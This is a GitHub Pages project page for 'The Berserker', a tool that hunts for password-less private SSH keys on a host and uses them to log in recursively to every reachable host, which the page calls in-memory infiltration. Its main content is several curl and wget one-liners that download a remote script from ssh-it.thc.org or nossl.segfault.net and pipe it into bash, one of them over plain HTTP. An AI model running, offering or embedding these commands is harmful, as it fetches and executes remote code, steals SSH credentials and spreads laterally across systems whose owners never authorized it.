 ```yaml
---
layout: default
title: The Berserker
description: A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts.
---
```


<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

__The Berserker__ looks for password-less ssh-keys (such as `~/.ssh/id_rsa`) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start __The Berserker__:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```

or:

```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

## Tips & Tricks

* Press `CTRL-C` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to `BS_DEPTH=1` will make The Berserker log into the next host but not any farther.

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

## When HTTPS is not available

```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

## Alpha Testing

THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:

* #!adm for testing and comments

## Contact

{% include contact-details.md %}
